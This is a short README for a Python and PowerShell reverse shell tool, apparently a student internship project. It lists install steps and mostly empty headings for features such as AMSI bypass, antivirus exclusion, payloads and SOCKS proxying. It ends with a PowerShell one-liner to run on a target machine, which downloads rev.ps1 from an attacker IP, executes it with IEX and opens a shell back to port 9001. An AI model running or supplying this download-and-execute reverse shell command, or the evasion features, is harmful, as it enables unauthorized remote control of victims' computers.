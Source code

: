 # Introduction

A small reverse shell project that i build during my university intership.

It is written with Python and Powershell. To simply install it:

1.  Clone this repo
2.  ```
    pip install -r requirements.txt
    ```
3.  ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

Powerrevshell.py comes with several function accesibbile via the "menu" option.

### get - put
The 
### smb-get
### down-file
### load
### amsi-bypass
### exclude
### payload
### socks-start
### socks-stop
### socks
### close


## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
(New-Object System.Net.WebClient).DownloadString('http://<IP>/rev.ps1') IEX; Send-Shell -i <IP> -p 9001
```
